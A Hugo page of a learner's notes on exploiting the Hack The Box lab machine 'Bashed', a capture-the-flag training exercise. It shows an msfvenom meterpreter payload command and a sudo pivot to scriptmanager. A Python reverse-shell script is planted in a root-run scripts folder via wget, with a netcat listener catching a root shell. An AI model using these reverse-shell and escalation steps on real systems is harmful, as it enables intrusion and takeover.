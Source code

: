```yaml
---
### The title for the content.
title: "Bashed"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "bashed"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description: "Notes from the Bashed machine on HTB."
### The datetime assigned to this page.
date : 2020-03-10T16:43:47+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "bashed"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## bashed

### where you at

10.10.10.68

### what you got

#### nmap

{{%attachments title="Related files" style="grey" pattern=".*(nmap)" /%}}

#### Nikto

{{%attachments title="Related files" style="grey" pattern=".*(nikto)" /%}}

#### Gobuster

{{%attachments title="Related files" style="grey" pattern=".*(gobuster)" /%}}

/dev = php shell

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f elf > notmalware.elf
```

{{%attachments title="Related files" style="grey" pattern=".*(notmalware)" /%}}

```bash
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

```bash
sudo -u scriptmanager /bin/bash -i
scriptmanager@bashed:/tmp$ ls -la /
ls -la /
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
....
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jan 24 15:40 scripts
....

scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jan 24 15:40 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager  213 Jan 24 15:39 test.py
-rw-r--r--  1 root          root            12 Jan 24 15:30 test.txt
```

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.24",4455))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

{{%attachments title="Related files" style="grey" pattern=".*(test.py)" /%}}

```bash
root@kali:/mnt/hgfs/_shared_folder/htb/boxes/bashed/web# vim test.py
root@kali:/mnt/hgfs/_shared_folder/htb/boxes/bashed/web# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [25/Jan/2020 00:39:59] "GET /test.py HTTP/1.1" 200 -
```

```bash
scriptmanager@bashed:/scripts$ wget http://10.10.14.24/test.py
wget http://10.10.14.24/test.py
--2020-01-24 15:39:19--  http://10.10.14.24/test.py
Connecting to 10.10.14.24:80... connected.
HTTP request sent, awaiting response... 200 OK
```

```bash
root@kali:~# nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 57362
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
